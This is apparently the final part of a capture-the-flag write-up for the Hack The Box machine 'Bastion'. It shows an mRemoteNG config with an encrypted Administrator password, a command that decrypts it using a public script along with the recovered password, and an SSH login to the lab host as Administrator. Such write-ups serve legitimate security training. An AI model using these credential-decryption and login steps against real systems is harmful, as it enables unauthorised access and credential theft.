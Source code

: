 ```
	ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" 
	RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" 
	--snip-- />
    --snip--
</mrng:Connections>
```
The config file contains information about an RDP connection locally as Administrator, including a
base64 encoded encrypted blob as the password. A quick Internet search reveals that there is
a simple [Python script](https://github.com/haseebT/mRemoteNG-Decrypt) available on GitHub to decrypt
the password.
```
root@kali:bastion# python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
Now that we have the Administrator password, we can SSH into the host with Administrative privileges,
root owning this box.
```
root@kali:bastion# ssh Administrator@10.10.10.134
Administrator@10.10.10.134's password
[screen clear]
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

administrator@BASTION C:\Users\Administrator>
```
# Summary
This box was a pretty simple box overall but with some fun puzzles, like figuring out how to deal with 
exfiltrating large files over SMB, and decrypting the password used by mRemoteNG. SMB is usually
thought about from a pentesting perspective as a service that, if vulnerable, can be used to easily
own a box as SYSTEM. This box was a great exercise in using SMB the way it was intended to exfiltrate
information.
